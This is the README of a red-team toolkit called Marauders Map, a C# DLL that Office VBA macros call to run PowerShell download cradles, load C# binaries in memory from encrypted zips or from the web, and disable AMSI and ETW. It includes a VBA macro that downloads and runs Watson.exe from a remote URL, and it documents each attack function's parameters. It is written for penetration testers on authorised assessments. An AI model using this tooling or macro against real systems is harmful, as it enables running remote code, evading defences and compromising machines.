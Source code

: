 # Marauders Map
The internal attacker toolkit heavily inspired by the folks of MDSec and their [SharpPack](https://www.mdsec.co.uk/2018/12/sharppack-the-insider-threat-toolkit/)
<br>
The Marauders Map is meant to be used on assessments where you have gained GUI access to an enviornment. 
<br>
The Marauders Map is a DLL written in C#, enriched by the DllExport project to export functions that can serve as an entrypoint of invocation for unmanaged code such as rundll32.

Corresponding blogpost: https://blog.nviso.eu/2021/04/27/i-solemnly-swear-i-am-up-to-no-good-introducing-the-marauders-map/

## Capabilities
The power of the Marauders Map is in it's compatibility with the office suite, Marauders map is capeable of the following functionality:

* Run powershell commands such as whoami, or even full-fleged downloadcradles a la IEX(New-Object ... ) 
* Run powershell scrips from within an encrypted zip, unpacking it completely in memory
* Run C# binaries from within an encrypted zip, unpacking it completely in memory
* Run C# binaries fetched from the internet

It also has the functionality to patch AMSI and ETW, although you'll have to bring your own bypasses.


## Usage:
The DLL has one exported function called `ISolemnlySwearIAmUpToNoGood` this is the magic function you'll want to leverage as this will return a new `maraudermap` class. 

You can leverage the maraudermap like this in VBA macro format: 

```
Private Declare PtrSafe Function ISolemnlySwearIAmUpToNoGood Lib "<PATH TO YOUR COMPILED DLL WITH CORRECT OFFICE ARCHITECTURE>" () As Object

Sub test()
Dim MM As Object
Dim run

Set MM = ISolemnlySwearIAmUpToNoGood()
run = MM.RunBinaryFromWeb("https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/Watson.exe?raw=true", "G:\watsonexcel.txt", "", False, False)
End Sub

```

## Marauder Map Functions


The `RunBinaryFromEncryptedZip` function runs a binary from an encrypted zip. It should be noted that the zip does not necessarily have to be a .zip, the zip can have any name and extension, for example redteamfit.txt and the functionality will still work. 
<br>
This function has some parameters to take into account:

* zip - this needs to point to the zip location on disk
* password - the password for the encrypted zip
* outfile - the file where the output of the binary will write to
* binName - the name of the binary you want to run in the zip, the zip can contain multiple binaries, for example [Flangviks's entire sharpcollection](https://github.com/Flangvik/SharpCollection)
* arguments - arguments you want to feed to the binary, delimeter is a space
* nomoretracing - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterfaceForSharpies - boolean to disable AMSI **needs your own bypass**



The `RunBinaryFromWeb` function runs a binary directly from the web.
<br>
This function has some parameters to take into account:

* url - the url that points to the **direct** download of the PE
* outfile - the file where the output of the binary will write to
* arguments - arguments you want to feed to the binary, delimeter is a space
* nomoretracing - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterfaceForSharpies - boolean to disable AMSI **needs your own bypass**

The `RunPowerShellScriptFromEncryptedZip` function runs a poweshell script from an encrypted zip. It should be noted that the zip does not necessarily have to be a .zip, the zip can have any name and extension, for example redteamfit.txt and the functionality will still work. <br>
This function has some parameters to take into account:

* zip - this needs to point to the zip location on disk
* password - the password for the encrypted zip
* outfile - the file where the output of the script will write to
* scriptName - the name of the script you want to run in the zip, the zip can contain multiple scripts, for example [ShitSecure's powersharppack collection](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries)
* arguments - arguments you want to feed to the scipt, delimeter is a space
* bypassLogging - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterface - boolean to disable AMSI **needs your own bypass**


The `RunPowerShellCommand` function runs powershell, simple as that. <br>
This function has some parameters to take into account:

* command - the command you want to run, could be beneign such as whoami or could be a full downloadcradle
* outfile - the outfile where the powershell result will write itself to.
* bypassLogging - boolean to disable ETW, **needs your own ETW bypass  **
* bypassAntiMalwareScanningInterface - boolean to disable AMSI **needs your own bypass**
